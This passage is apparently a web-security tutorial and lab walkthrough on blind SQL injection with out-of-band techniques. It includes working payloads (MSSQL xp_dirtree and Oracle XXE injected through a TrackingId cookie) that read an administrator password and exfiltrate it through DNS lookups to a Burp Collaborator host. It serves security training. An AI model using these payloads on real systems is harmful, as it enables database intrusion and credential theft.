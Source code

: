 ```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

## **Lab: Blind SQL injection with out-of-band interaction**

1. Modify the `TrackingId` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
2. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.

## **Exploiting blind SQL injection using out-of-band (OAST) techniques**

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

## **Lab: Blind SQL injection with out-of-band data exfiltration**

1. Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
